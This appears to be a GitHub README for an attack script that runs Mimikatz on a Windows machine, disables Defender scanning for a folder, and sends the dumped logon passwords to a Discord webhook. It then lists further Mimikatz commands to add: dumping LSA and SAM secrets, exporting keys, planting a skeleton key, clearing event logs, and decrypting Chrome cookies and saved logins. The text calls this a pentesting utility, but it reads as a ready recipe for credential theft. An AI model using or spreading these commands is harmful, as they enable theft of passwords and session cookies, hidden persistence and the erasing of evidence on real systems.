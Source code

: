 # usage
Place discord webhook into the correct variable in the Mimikatz.txt file, and that's it!

# To know 
this script sets an exclusion path on C:\temp, then removes such and the execution policy back to normal when completed.

# Exfiltration
Mimikatz is a very useful utility for pentesters, so change the commands to ones needs. 
- for now sekurlsa::logonpasswords is exfiltrated and saved to the logs, add more if needed 

# examples for additions
Extract from lsass (service)
- lsadump::lsa /inject

Extract from SAM
- lsadump::sam

print list of provider keys
- crypto::keys /export

skeleton key
- misc::skeleton

event logs
- event::clear
- event::clear /log:system

Chrome Cookies
- dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect

Chrome Logins
- dpapi::chrome /in:"C:\Users\%USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default\Login Data" 
